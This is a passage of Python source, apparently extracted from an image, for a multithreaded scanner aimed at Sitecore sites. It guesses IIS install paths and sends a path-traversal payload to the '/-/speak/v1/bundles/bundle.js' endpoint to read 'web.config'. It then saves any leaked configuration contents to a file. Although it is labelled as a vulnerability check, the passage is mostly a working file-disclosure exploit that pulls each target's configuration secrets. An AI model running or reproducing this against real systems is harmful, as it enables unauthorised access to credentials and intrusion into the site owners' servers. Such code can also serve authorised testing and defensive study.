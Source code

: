 ```
            fr"C:\\inetpub\\{subdomain}.sc\\",
            fr"C:\\inetpub\\{fqdn}\\",
            fr"C:\\inetpub\\{subdomain}\\",
            fr"C:\\inetpub\\{domain}\\",
            fr"C:\\inetpub\\{domain}.sitecore\\",
            fr"C:\\inetpub\\{fqdn}.sitecore\\",
            fr"C:\\inetpub\\{subdomain}.sitecore\\",
            fr"C:\\inetpub\\{domain}.website\\",
            fr"C:\\inetpub\\{fqdn}.website\\",
            fr"C:\\inetpub\\{subdomain}.website\\",
            fr"C:\\inetpub\\{domain}.dev.local\\",
            fr"C:\\inetpub\\{fqdn}.dev.local\\",
            fr"C:\\inetpub\\{subdomain}.dev.local\\",
            fr"C:\\inetpub\\{domain}sc.dev.local\\",
            fr"C:\\inetpub\\{fqdn}sc.dev.local\\",
            fr"C:\\inetpub\\{subdomain}sc.dev.local\\"
        ]
    def send_request(self, base_url: str, path: str, progress_bar: tqdm) -> Optional[dict]:
        """Send request to check for vulnerability."""
        test_path = f"{path}sitecore\\shell\\client\\..\\..\\..\\web.config%23.js"
        payload_url = f"{base_url}/-/speak/v1/bundles/bundle.js?f={test_path}"
        
        try:
            response = requests.get(payload_url, verify=False, timeout=5)
            if response.status_code == 200 and "<?xml version=" in response.text and "<configuration>" in response.text:
                result = {
                    "url": base_url,
                    "path": path,
                    "content": response.text
                }
                self.results.append(result)
                return result
        except requests.RequestException:
            pass
        finally:
            progress_bar.update(1)
        return None
    def process_url(self, base_url: str, progress_bar: tqdm) -> None:
        """Process a single URL."""
        leaked_path = self.attempt_absolute_path_leak(base_url)
        
        if leaked_path:
            leaked_path = leaked_path.replace("x\\x.txt", "")
            paths_to_test = [leaked_path] + self.generate_dynamic_paths(base_url)
        else:
            paths_to_test = self.fixed_paths + self.generate_dynamic_paths(base_url)
        with ThreadPoolExecutor(max_workers=5) as executor:
            futures = [executor.submit(self.send_request, base_url, path, progress_bar) 
                      for path in paths_to_test]
            for future in as_completed(futures):
                future.result()
    def save_results(self, output_file: str) -> None:
        """Save results to file."""
        if self.results:
            with open(output_file, "w") as f:
                for result in self.results:
                    f.write(f"URL: {result['url']}\n")
                    f.write(f"Path: {result['path']}\n")
                    f.write(f"Extracted File:\n{result['content']}\n\n")
    def print_results(self) -> None:
        """Print all found results."""
        if self.results:
```